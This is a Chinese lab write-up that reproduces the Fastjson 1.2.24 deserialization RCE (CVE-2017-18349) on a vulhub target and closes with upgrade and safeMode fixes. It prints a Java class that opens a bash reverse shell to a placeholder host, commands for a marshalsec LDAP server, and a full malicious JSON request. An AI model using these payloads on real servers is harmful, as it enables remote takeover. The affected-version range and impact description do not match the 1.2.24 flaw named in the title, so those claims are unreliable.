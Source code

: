 # Fastjson 1.2.24-rce漏洞（CVE-2017-18349）

### 0x00 前言

fastjson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。即fastjson的主要功能就是将Java Bean序列化成JSON字符串，这样得到字符串之后就可以通过数据库等方式进行持久化了。

阿里巴巴公司开源Java开发组件Fastjson存在反序列化漏洞（CVE-2017-18349）。攻击者可利用该漏洞实施任意文件写入、服务端请求伪造等攻击行为，造成服务器权限被窃取、敏感信息泄漏等严重影响。

影响版本：

```
fastjson 1.2.80及之前所有版本
```



### 0x01 环境搭建

这里使用的vulhub的靶场`fastjson/1.2.24-rce`

![image-20230412095028523](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412095028523.png)

环境运行后，访问`http://your-ip:8090`即可看到JSON格式的输出。

### 0x02 漏洞复现

1、准备工具[marshalsec-0.0.3-SNAPSHOT-all.jar]([https://github.com/mbechler/marshalsec])

2、编译并上传命令执行代码`Getshell.java`，生成`Getshell.class`文件

```java
// javac Getshell.java
import java.lang.Runtime;
import java.lang.Process;

public class Getshell {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/exp_ip/exp_port 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

`exp_ip`: 指接收反弹shell的主机

`exp_port`: 指接收反弹shell的主机的端口

3、打开http服务

```shell
python -m http.server 8080
```

4、利用marshalsec工具，启动一个LDAP服务器，监听9999端口

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://打开http服务的IP/#Getshell" 9999
```

5、构造数据包，发送到目标服务器，获取shell

```
POST / HTTP/1.1
Host: 192.168.12.130:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 164

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://启动LDAP服务器的IP:9999/Getshell",
        "autoCommit":true
    }
}
```

![image-20230412114840055](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412114840055.png)

### 0x03 修复建议

1、建议升级到最新版本1.2.83。

2、safeMode加固。Fastjson在1.2.68及之后的版本中引入了safeMode，配置safeMode后，无论白名单和黑名单，都不支持 autoType，可杜绝反序列化Gadgets类变种攻击。

3、升级至Fastjson v2。